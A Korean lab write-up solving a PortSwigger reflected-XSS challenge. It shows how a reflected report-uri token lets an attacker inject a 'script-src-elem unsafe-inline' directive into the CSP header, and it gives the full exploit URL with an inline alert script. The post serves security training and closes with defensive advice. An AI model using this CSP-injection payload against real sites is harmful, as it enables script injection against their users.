



+++
date = '2026-06-08T17:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Reflected XSS protected by CSP, with CSP bypass'
summary = "CSP report-uri의 token 파라미터에 script-src-elem 지시어를 주입해 인라인 script 실행을 허용하는 CSP 우회 풀이"
toc = true
tags = ["XSS", "Reflected XSS", "CSP", "Policy Injection", "PortSwigger", "Expert"]
url = '/write-up/portswigger/xss/write-up-portswigger---reflected-xss-protected-by-csp-with-csp-bypass/'
+++

---

## 문제 분석

> **난이도**: `EXPERT`  
> **Lab**: [Reflected XSS protected by CSP, with CSP bypass](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass)

> 

검색 기능에 Reflected XSS가 존재하지만 CSP가 인라인 스크립트 실행을 차단한다. CSP 헤더에 사용자 입력을 주입해 정책을 변경하고 `alert()`를 호출하면 문제가 해결된다.

### XSS 진단

응답 헤더에서 다음 정책을 확인할 수 있다.

```http
Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

`script-src 'self'` 때문에 검색어에 `<script>alert(1)</script>`를 넣어도 인라인 스크립트는 실행되지 않는다.

정책의 `report-uri`에는 `token` 파라미터가 연결되어 있다. 요청에 `token=xss`를 추가하면 값이 다음처럼 CSP 헤더에 그대로 반사된다.

```http
Content-Security-Policy: default-src 'self'; object-src 'none'; script-src 'self'; style-src 'self'; report-uri /csp-report?token=xss
```

세미콜론을 삽입하면 `report-uri`를 끝내고 새로운 CSP 지시어를 추가할 수 있다.

---

## 익스플로잇

`script` 요소에 적용되는 더 구체적인 `script-src-elem` 지시어를 주입하고 인라인 실행을 허용한다.

```text
token=;script-src-elem 'unsafe-inline'
```

검색어의 인라인 스크립트와 결합한 최종 요청은 다음과 같다.

```text
/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```

브라우저가 적용하는 정책에는 다음 지시어가 추가된다.

```http
script-src-elem 'unsafe-inline'
```

이 지시어가 `<script>` 요소의 로드와 실행 정책을 `script-src`보다 구체적으로 결정하므로, 검색어에 삽입한 인라인 script가 허용된다.



`alert()`가 실행되며 문제가 해결된다.



---

## 정리

CSP 헤더의 일부를 사용자 입력으로 구성하면 입력값 자체가 정책 문법이 될 수 있다. 이 랩에서는 `report-uri` 파라미터에 세미콜론과 `script-src-elem`을 주입해 더 구체적인 정책을 추가했다. 보안 헤더는 고정된 값으로 생성하고, 동적 값이 필요하더라도 허용된 문자와 구조를 엄격하게 제한해야 한다.
